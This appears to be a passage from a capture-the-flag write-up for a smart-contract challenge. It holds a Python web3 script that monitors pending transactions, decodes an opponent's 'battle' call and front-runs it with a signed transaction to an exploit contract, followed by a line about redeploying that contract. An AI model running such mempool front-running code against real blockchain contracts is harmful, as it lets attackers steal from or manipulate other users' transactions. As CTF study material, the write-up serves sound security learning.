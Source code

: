 ```python
nonce = web3.eth.get_transaction_count(wallet)
gasPrice = web3.eth.gas_price
gasLimit = 3000000

tx = {
    'nonce': nonce,
    'gas': gasLimit,
    'gasPrice': gasPrice,
    'from': wallet
}

def frontrun(ans):
	global done
	if (not done):
		transaction = exploit_instance.functions.setAnswer(ans).build_transaction(tx)
		signed_tx = web3.eth.account.sign_transaction(transaction, private_key)
		tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
		transaction_hash = web3.to_hex(tx_hash)
		print(f'frontrun with : {transaction_hash}')
		done = True

def get_txn(txn_hash):
	global done
	txn = web3.eth.get_transaction(txn_hash)
	print('Found tx:', txn['hash'].hex())
	try:
		sig, arg = lustrous_instance.decode_function_input(txn['input'])
	except ValueError:
		return
	if (sig.abi['name'] != 'battle'):
		return
	arr = arg['lunarian_actions']
	print(arr)
	ans = []
	for i in arr:
		ans.append((i + choice) % 3)
	print("ans :", ans)
	frontrun(ans)

while True:
	txns = pending_filter.get_new_entries()
	for txn_hash in txns:
		thread = Thread(target=get_txn, args=[txn_hash])
		thread.start()
	if done :
		break
```

At first, we will keep deploy the exploit contract until it doesnt revert and get an ideal gem that will become inactive but not destroyed after one attack from the 1st lunarian.
